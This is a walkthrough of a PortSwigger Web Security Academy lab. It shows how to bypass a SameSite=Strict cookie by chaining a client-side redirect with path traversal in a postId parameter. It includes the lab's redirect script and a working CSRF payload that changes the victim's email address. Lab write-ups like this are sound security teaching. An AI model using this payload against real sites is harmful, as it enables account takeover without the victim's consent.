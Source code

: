 Title: SameSite Strict bypass via client-side redirect
Level: PRACTITIONER
Desc:  This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.
You can log in to your own account using the following credentials: wiener:peter 

# Walkthrough:
Now we have Samesite: Strict set on the cookie.
<img width="1462" height="80" alt="image" src="https://github.com/user-attachments/assets/ddcec993-b27a-4fbe-8c0d-0b76e569cc61" />

After adding a comment I get redirection to https://0a6b00030321b2b880e9037100e3000a.web-security-academy.net/post/comment/confirmation?postId=9

After redirection I can see, that below js file is being requested.
https://0a6b00030321b2b880e9037100e3000a.web-security-academy.net/resources/js/commentConfirmationRedirect.js

The script takes parameter postId from the url to make redirection.
```
redirectOnConfirmation = (blogPath) => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = blogPath + '/' + postId;
    }, 3000);
}
```
I am crafting url like that: `https://0a6b00030321b2b880e9037100e3000a.web-security-academy.net/post/comment/confirmation?postId=../../my-account`

So now I can craft an exploit:
```
<script>
    document.location = "https://YOUR-LAB-ID.web-security-academy.net/post/comment/confirmation?postId=/../../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```
It makes request to the same site, but it makes also redirect using site functionallity to /my-account/change-email.


